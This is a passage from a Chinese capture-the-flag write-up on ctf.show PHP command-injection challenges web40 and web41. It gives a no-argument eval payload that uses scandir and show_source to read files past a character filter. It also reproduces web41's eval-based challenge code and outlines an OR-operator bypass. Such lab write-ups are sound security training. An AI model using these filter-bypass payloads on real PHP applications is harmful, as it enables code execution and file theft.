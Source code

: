 ```php
}
```

屏蔽关键词 /[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\

这里要使用无参命令执行

payload：

> ?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

关于无参命令执行的一些解释

![image-20241109165447576](assets/202411091654772.png)

#### web41

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 羽
# @Date:   2020-09-05 20:31:22
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:40:07
# @email: 1341963450@qq.com
# @link: https://ctf.show

*/

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

过滤内容：`/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i`

这个题过滤了`$、+、-、^、~`使得**异或自增和取反**构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或[运算符](https://so.csdn.net/so/search?q=运算符&spm=1001.2101.3001.7020)`|`。
我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用的字符的字符。
